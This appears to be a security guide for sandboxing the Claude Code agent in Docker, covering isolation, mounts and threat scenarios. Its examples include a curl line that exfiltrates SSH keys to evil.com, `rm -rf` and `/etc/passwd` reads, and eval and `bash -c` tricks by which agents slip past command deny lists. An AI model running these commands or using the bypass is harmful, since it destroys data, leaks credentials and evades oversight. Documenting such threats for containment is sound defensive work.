

# Claude Code Docker Sandbox - Security Guide

## Overview

This document explains how to run Claude Code in a secure Docker sandbox, providing complete system isolation while preserving full functionality. This approach ensures Claude can only access your project files and cannot affect your host system, even if it writes malicious code or installs compromised packages.

**What you'll learn:**

- How Docker sandboxing protects your system
- What isolation boundaries are created
- How to use Claude Code safely with this approach
- How this complements Anthropic's built-in security features

---

## Context: Claude Code's Built-in Security

Claude Code includes several security features that work at the application level:

**Permission System:** Prompts before executing bash commands or accessing files (https://docs.anthropic.com/en/docs/claude-code/security)
**Sandbox Mode:** Built-in command sandboxing on Linux/Mac (https://www.anthropic.com/engineering/claude-code-sandboxing)
**security-guidance Plugin:** Warns about vulnerable code patterns like XSS and command injection (https://github.com/anthropics/claude-code/tree/main/plugins/security-guidance)

These are security features designed to prevent malicious or unintended actions. However, they operate within the Claude Code process itself, on your actual system with access to your files.

> **Note:** This approach adds a complete isolation layer around Claude Code using Docker, which provides system-level protection regardless of what happens inside the Claude Code process.

---

## Understanding the Architecture

To understand why Docker provides comprehensive protection, it helps to see how the different layers work together:

### The Layer Model



**Execution Order (Outside → In):**

1. Docker starts → creates isolated container
2. Volumes mounted → project code and sandbox cache directories
3. Claude Code starts → inside container at `/home/claude`

### Why Docker Wraps Everything

Docker provides isolation by starting **before** Claude Code runs, creating a complete boundary:

**Execution order:**

```
1. Docker starts → creates isolated container
2. Claude Code starts → inside container
3. Plugins load → inside Claude Code
```

This outside-in approach means:

- All Claude Code operations happen within isolation
- Plugins inherit Docker's protection automatically
- Even malicious or buggy code can't escape the container

**Plugins complement Docker:** The security-guidance plugin can run inside the container, warning about code quality issues, while Docker prevents system-level threats. They work together, not against each other.

### Docker Protects Everything Inside

```bash
# Start Claude Code in Docker sandbox
./run-claude-sandboxed.sh ~/myproject

# Inside container, everything runs protected:
├─ Claude Code ✅
├─ security-guidance plugin ✅
├─ Any other plugins ✅
└─ All contained by Docker isolation ✅
```

Even if a plugin or Claude itself tries to access sensitive files, Docker blocks it:

```
Attempt: os.system("cat /etc/passwd")
Result: File doesn't exist in container ✅
Host /etc/passwd: Completely safe ✅
```

### Key Takeaway

Docker provides complete isolation by wrapping the entire Claude Code process.

### Why Docker vs Command Restrictions?

Some AI code editors use command deny lists (blocking `rm`, `sudo`, `git commit`, etc.) to prevent unwanted actions. However, AI agents can often bypass these:

```python
# Restricted: subprocess.run(['rm', 'file.txt'])
# Bypass: eval("__import__('os').system('rm file.txt')")
# Also works: bash -c, python -c, node -e, etc.
```

**Docker works differently:** It doesn't care what code runs—it enforces file access at the kernel level. Claude can use any trick (`eval`, `bash -c`, whatever), but the files simply don't exist in the container.

> **Can Docker be escaped?**
>
> - **Kernel exploits:** Theoretically possible, extremely rare, patched quickly
> - **Misconfiguration:** The real risk—mounting `/`, using `--privileged`, or running Docker commands with `sudo` unnecessarily
> - **This setup:** Uses safe defaults, docker group (no sudo needed), only mounts your project and isolated cache directory

> **About docker group access:** Adding your user to the docker group grants root-equivalent access to the Docker daemon. This is standard for Docker development on personal machines and allows running Docker without `sudo`. While this provides host-level access to Docker, this sandbox adds additional security by running containers as your user ID (not root) and limiting filesystem access to only your project directory and the isolated sandbox cache.

> For shared systems or high-security environments, consider [rootless Docker](https://docs.docker.com/engine/security/rootless/) which runs the daemon itself without root privileges.

---

## Data Persistence & Security

Understanding where sensitive data is stored is crucial for the complete security model.

### Volume Mounts

The sandbox uses **four separate volume mounts** for security and functionality:

**1. Project Directory** (Your Code)

```
Host:      ~/myproject/
Container: /sandboxed_home-user-myproject/
Purpose:   Your actual project files
```

- Read/write access
- Changes persist on your host system
- Version controlled with git
- Each project gets a unique container path for isolation

**2-4. Sandbox Cache & Config** (Auth & Settings)

```
Host:      ~/devtools/claude-code-sandbox/cache/pip
Container: /cache/pip
Purpose:   Python package cache

Host:      ~/devtools/claude-code-sandbox/cache/npm
Container: /cache/npm
Purpose:   Node.js package cache

Host:      ~/devtools/claude-code-sandbox/cache/claude-config
Container: /home/claude
Purpose:   Claude Code authentication, history, agents, preferences and settings
```

- All cache/config data is **isolated from host** `~/.claude/` (if you have global Claude Code installed)
- Persists across container restarts
- Cleared only with `--fresh` flag

### What Gets Stored Where

**In Sandbox Cache** (`~/devtools/claude-code-sandbox/cache/`):

- **Authentication**: OAuth credentials (`.claude/.credentials.json`)
- **Settings**: Theme, preferences (`.claude.json`)
- **Conversation History**: Per-project chat history (`.claude/projects/`)
- **Command History**: Previous commands (`.claude/history.jsonl`)
- **Package Caches**: npm/pip downloads (`cache/npm/`, `cache/pip/`)
- **Resource Configs**: Memory/CPU settings per project (`resources/`)
- **Personal Agents**: User-level custom agents (`.claude/agents/`)

**In Your Project** (`~/myproject/`):

- Your source code files
- Project-level `.claude/agents/` (if any)
- Project-level `.claude/commands/` (if any)
- Everything you commit to git

> **Security benefit:** Authentication and settings are isolated from your projects. Even if a project is compromised, credentials remain in a separate, non-project location.

> **📖 See:** [GUIDE.md - What Persists](GUIDE.md#what-persists) for complete details on data storage.

---

## Understanding the Container Environment

When you run the sandbox, your project directory gets mounted at a unique path inside the container. This path is based on your project's location and ensures each project has isolated permissions and session history.

### Path Transformation

The script transforms your host path into a unique container path:

**Example: `/home/user/myproject/` becomes `/sandboxed_home-user-myproject/`**

```
Transformation: Remove leading slash → Replace slashes with dashes → Add prefix

/home/user/myproject/  →  home/user/myproject/  →  home-user-myproject  →  /sandboxed_home-user-myproject/
```

### Path Mapping

```
Host System (your computer):                Docker Container:
─────────────────────────────────           ────────────────────────────────────
~/myproject/                         →      /sandboxed_home-user-myproject/
  ├── src/                                    ├── src/
  │   └── app.py                              │   └── app.py
  ├── tests/                                  ├── tests/
  │   └── test_app.py                         │   └── test_app.py
  └── README.md                               └── README.md

~/.ssh/                              →      ❌ Not accessible
/etc/                                →      ❌ Not accessible
~/other-project/                     →      ❌ Not accessible
```

> **💡 The script shows you the exact container path** at startup. Copy that path for your prompts!

### Working with Claude Code in the Container

> **When Claude Code asks "Do you trust /sandboxed_home-user-myproject?":**
>
> This is Claude Code's standard security prompt. The `/sandboxed_home-user-myproject/` directory IS your actual project directory, just viewed from inside the secure container. It's safe to trust because:
>
> 1. **It's your directory** - You specified it when running the script
> 2. **It's isolated** - The container can ONLY access this one directory
> 3. **No system access** - Your ~/.ssh, /etc/, and other sensitive locations are completely inaccessible

**When giving Claude Code instructions:**

Reference files using the container path shown at startup:

```bash
✅ Correct commands (example for /sandboxed_home-user-myproject/):
"Edit /sandboxed_home-user-myproject/src/app.py"
"Run /sandboxed_home-user-myproject/tests/test_app.py"
"Create /sandboxed_home-user-myproject/config.yaml"
"Show me /sandboxed_home-user-myproject/README.md"

❌ These won't work (host paths don't exist in container):
"Edit ~/myproject/src/app.py"
"Run /home/user/myproject/tests/test_app.py"
```

### Why This Path Change Happens

Docker mounts provide isolation by creating a separate filesystem namespace. Your files physically exist on your host system at `~/myproject/`, but inside the container they appear at `/sandboxed_home-user-myproject/`. This is a security feature, not a limitation.

**Why unique paths per project?**

- Each project gets its own conversation history
- Permissions are tracked separately per project
- No cross-contamination between projects

> **Key insight:** The files are identical, only the path changes. When Claude Code edits `/sandboxed_home-user-myproject/app.py` inside the container, it's actually editing `~/myproject/app.py` on your host system through the Docker volume mount.

### Verification Example

You can verify the files are the same:

```bash
# In one terminal, run Claude Code sandbox
cd ~/myproject
run-claude-sandboxed.sh

# Note the container path shown at startup (e.g., /sandboxed_home-user-myproject/)

# Inside Claude Code:
You: "Create /sandboxed_home-user-myproject/test.txt with content 'Hello from container'"

# In another terminal on your host:
cat ~/myproject/test.txt
# Output: Hello from container

# The file exists in both places - they're the same file!
```

This demonstrates that `/sandboxed_home-user-myproject/` inside the container and `~/myproject/` on your host are two views of the same directory.

---

## Docker Sandbox Security Features

### Complete System Isolation

**What gets isolated:**

```
Host System                                    Docker Container
─────────────────────────────────             ─────────────────────────────────────────
~/myproject/                            →      /sandboxed_home-user-myproject/ (code)
~/devtools/.../cache/pip                →      /cache/pip (pip packages)
~/devtools/.../cache/npm                →      /cache/npm (npm packages)
~/devtools/.../cache/claude-config      →      /home/claude (auth, agents, history, preferences)

❌ BLOCKED FROM CONTAINER:
/home/user/                                    ❌ Not accessible
/etc/                                          ❌ Not accessible
/var/                                          ❌ Not accessible
~/.ssh/                                        ❌ Not accessible
Other projects/                                ❌ Not accessible
Host ~/.claude/ (if exists)                    ❌ Not accessible

✅ CONTAINER HAS:
System binaries                                ✅ Container's own binaries
Node.js, npm, pip                              ✅ Isolated versions
```

**Key Security Features:**

#### 1. File System Isolation

- Claude can ONLY access the specific project directory mounted
- Cannot read `/etc/passwd`, SSH keys, or other sensitive files
- Cannot access other projects on your system
- Cannot write to system directories

#### 2. Package Installation Containment

- `npm install`, `pip install` happen inside container
- No pollution of host system
- Packages cached at `~/devtools/claude-code-sandbox/cache/pip/` and `cache/npm/`
- Cache persists across sessions but isolated from host
- Cleared with `--fresh` flag if needed

#### 3. Network Isolation (Optional)

- Can restrict network access
- Can limit to specific domains
- Prevents exfiltration of data

#### 4. Process Isolation

- Container processes can't see host processes
- Can limit CPU and memory usage
- Can limit number of processes

#### 5. Complete Reset Capability

- **Container deletion** (automatic with `--rm` flag):
  - Container removed when session ends
  - Cache and authentication persist
  - Project files untouched
- **Full reset** (with `--fresh` flag):
  - Deletes `~/devtools/claude-code-sandbox/cache/`
  - Removes authentication, settings, conversation history
  - Package caches cleared
  - Project files still safe
  - See [GUIDE.md - Reset Everything](GUIDE.md#reset-everything)

### Container User Permissions

When you build the Docker image, you might notice this in the build output:

```
=> [5/5] RUN mkdir -p /home/claude && chmod 777 /home/claude
```

> **Why 777 permissions are safe here:**
>
> The container runs as **your user ID** (not root), but the `/home/claude` directory is created during the image build (which runs as root). The 777 permissions allow any user ID to write to this directory.
>
> **Why this matters:**
>
> - Your user ID on the host (e.g., uid 1000) might differ from system to system
> - The container needs a writable home directory for Claude Code to store temporary files
> - 777 ensures the directory is writable regardless of which user ID runs the container
>
> **Why it's safe:**
>
> - This `/home/claude` directory **only exists inside the container**
> - Your actual `/home` directory on your host system is completely separate
> - When the container stops, this directory disappears (ephemeral)
> - The container is isolated—even with 777 permissions, it can't affect your host filesystem
>
> **Verification:** Check your host system—`ls -la /home/` will not show a `claude` directory. It only exists in the Docker image layers.

### What This Sandbox Protects Against

**Scenario 1: Malicious Code Execution**

```
Claude writes: os.system("rm -rf /")
Docker sandbox: ✅ Only deletes container files, host untouched
Without sandbox: ❌ Could delete your system files
```

**Scenario 2: Data Exfiltration**

```
Claude writes: curl -X POST https://evil.com/steal --data-binary @~/.ssh/id_rsa
Docker sandbox: ✅ ~/.ssh/ doesn't exist in container
Without sandbox: ❌ SSH keys could be stolen
```

**Scenario 3: Lateral Movement**

```
Claude tries: cd ../../other-project && rm -rf *
Docker sandbox: ✅ other-project not mounted, not accessible
Without sandbox: ❌ Other projects could be deleted
```

**Scenario 4: Supply Chain Attack**

```
Claude runs: npm install malicious-package
Docker sandbox: ✅ Installs in container only
Without sandbox: ❌ Global npm packages affected
```

---

## What Docker Sandboxing Provides

| Security Feature      | How Docker Protects                                    |
| --------------------- | ------------------------------------------------------ |
| **File System**       | Complete isolation - only project directory accessible |
| **System Access**     | No access to host system files, SSH keys, configs      |
| **Package Install**   | Contained in container, doesn't affect host            |
| **Process Isolation** | Container processes separate from host                 |
| **Network Control**   | Optional restrictions on outbound connections          |
| **Easy Recovery**     | Delete container = complete cleanup                    |
| **Reproducible**      | Same isolated environment every time                   |

**Combined with Claude Code's features:**

- Docker handles system-level isolation
- security-guidance plugin handles code quality
- Permission system handles user confirmation
- Together = comprehensive protection

---

## How Docker and Built-in Features Work Together

### Docker Sandbox (System Layer)

**Protects against:**

- System file access
- Credential theft
- Cross-project contamination
- Package pollution
- Persistent system changes

**Think of it as:** The secure perimeter

### security-guidance Plugin (Code Layer)

**Protects against:**

- Vulnerable code patterns
- XSS vulnerabilities
- Command injection in application code
- Insecure deserialization
- Unsafe eval usage

**Think of it as:** The code reviewer

### Practical Example

```
User: "Create a web form that processes user input"

Security layers working together:

1. Docker ensures system safety:
   - Claude can't access ~/.aws credentials
   - Can't modify system files
   - All work contained in project directory

2. security-guidance ensures code quality:
   - Warns if Claude uses dangerouslySetInnerHTML
   - Suggests safe alternatives like textContent
   - Prevents XSS vulnerabilities

Result: Secure system + secure application code ✅
```

### Why Use Both?

Different threats require different defenses:

- **System threats:** Docker isolation prevents harm to your computer
- **Code quality threats:** security-guidance prevents vulnerabilities in your application

Using both provides defense-in-depth.

---

## Setup Guide

### Basic Setup: Docker Sandbox

```bash
# Run Claude Code in Docker for system isolation
./run-claude-sandboxed.sh ~/myproject
```

Recommended for all Claude Code sessions.

### Optional: Add security-guidance Plugin

For projects involving web development or user input handling:

```json
# Add to .claude/settings.json:
{
  "plugins": {
    "security-guidance": {
      "enabled": true
    }
  }
}
```

The plugin provides code quality warnings and runs safely inside the Docker container. [https://github.com/anthropics/claude-code/tree/main/plugins/security-guidance](https://github.com/anthropics/claude-code/tree/main/plugins/security-guidance)

### Optional: Additional Hardening

**For high-security environments:**

```bash
# Limit resources in run-claude-sandboxed.sh:
docker run -it --rm \
    --memory="2g" \
    --cpus="2" \
    --pids-limit=100 \
    # ... rest of options
```

**Network restrictions:**

```bash
# No network access at all:
--network=none

# Or allow specific domains only
# (requires custom Docker network setup)
```

---

## Key Takeaways

### 1. Layer Your Security

Multiple security layers provide comprehensive protection:

- **Container layer:** System isolation (Docker)
- **Application layer:** Permission controls (Claude Code)
- **Code layer:** Quality checks (security-guidance)

Each layer addresses different threats.

### 2. Docker Enables Safe Experimentation

With Docker isolation, you can:

- Let Claude try different approaches without risk
- Install experimental packages safely
- Delete and restart cleanly
- Learn without fear of breaking your system

### 3. Real-World Threat Protection

Docker protects against actual security scenarios:

- Compromised packages in supply chain
- Accidental destructive commands
- Credential theft attempts
- Cross-project contamination

See examples below for specific scenarios.

---

## Real-World Scenarios

### Scenario 1: Compromised Package

**Situation:** Claude installs an npm package that contains malware

**Without Docker Sandbox:**

```
npm install malicious-pkg
→ Package runs install script
→ Script accesses ~/.aws/credentials
→ Credentials stolen ❌
```

**With Docker Sandbox:**

```
npm install malicious-pkg
→ Package runs install script
→ Script tries to access ~/.aws/credentials
→ File doesn't exist in container ✅
→ Container deleted when done ✅
```

### Scenario 2: GitHub Actions Injection

**Situation:** Claude edits a GitHub workflow file

**With security-guidance:**

```
Claude writes:
  run: echo "${{ github.event.issue.title }}"

security-guidance: ⚠️  "Command injection risk! Use env vars"

Claude revises:
  env:
    TITLE: ${{ github.event.issue.title }}
  run: echo "$TITLE"

Result: Secure workflow ✅
```

**Without security-guidance:**

```
Claude writes vulnerable pattern
→ Gets committed
→ Exploitable in production ❌
```

### Scenario 3: Accidental Deletion

**Situation:** Claude misunderstands a command

**Without Docker Sandbox:**

```
You: "Clean up the test files"
Claude: rm -rf /tmp/*
→ Runs on host system
→ Deletes important /tmp files ❌
```

**With Docker Sandbox:**

```
You: "Clean up the test files"
Claude: rm -rf /tmp/*
→ Runs in container
→ Only container /tmp affected ✅
→ Container deleted anyway ✅
```

---

## Testing Both Security Layers

### Test 1: Docker Sandbox Isolation

```bash
# Start Claude Code in Docker
./run-claude-sandboxed.sh ~/test-project

# Ask Claude to do something dangerous:
"Can you show me the contents of /etc/passwd?"

Expected result:
- Docker sandbox: File doesn't exist or permission denied ✅
- Your /etc/passwd is safe ✅
```

### Test 2: security-guidance Warnings

```bash
# Start Claude Code (with or without Docker)
./run-claude-sandboxed.sh ~/test-project

# Ask Claude to create vulnerable code:
"Create a React component that sets innerHTML from user input"

Expected result:
- Claude writes code with dangerouslySetInnerHTML
- security-guidance: ⚠️  Warning appears
- Claude revises to use safe methods ✅
```

---

## Conclusion

Docker sandboxing provides comprehensive system-level isolation for Claude Code, ensuring your host system remains protected regardless of what happens during code generation. Combined with Claude Code's built-in features like the security-guidance plugin, you get protection at multiple layers.

**Key benefits of this approach:**

1. **System Protection**

   - Complete isolation from host files
   - Safe package installation
   - Easy cleanup and recovery

2. **Complementary Features**
   - Works with all Claude Code plugins
   - Enables safe experimentation
   - Doesn't interfere with functionality

**Getting Started:** See `GUIDE.md` for complete setup instructions.

---

## Further Reading

- **Setup Guide:** `GUIDE.md` - Complete Docker sandbox setup
- **Anthropic Docs:** https://docs.anthropic.com/docs/claude-code/overview
- **Claude Code Repo:** https://github.com/anthropics/claude-code

---

## Questions or Contributions

Questions about Docker sandboxing for Claude Code? Want to contribute improvements? Document them in the project.
